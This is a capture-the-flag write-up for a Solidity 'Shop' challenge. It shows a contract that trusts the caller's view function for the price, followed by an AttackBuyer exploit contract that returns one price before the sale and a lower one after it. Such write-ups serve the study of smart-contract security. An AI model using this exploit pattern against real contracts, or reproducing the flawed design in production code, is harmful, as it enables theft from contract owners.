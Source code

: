 ## Challenge
~~~
Сan you get the item from the shop for less than the price asked?

##### Things that might help:

- `Shop` expects to be used from a `Buyer`
- Understanding restrictions of view functions
~~~
## Contract
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```
`

## Solution

```
contract AttackBuyer {
    Shop shop = Shop(0x8448f7fF16785F60D48a83DFB3b0d911941745Aa);
    uint256 public timesCalled = 0;

    function price() external view returns (uint256){
        
        if(!shop.isSold()) {
            return 101;
        } else {
            return 1;
        }
    }

    function buy() external {
        shop.buy();
    }
}
```

Pretty similar to the Elevator challenge except the fact that the called function is `view` and thus cannot alter state.
## Key takeaways and useful resources



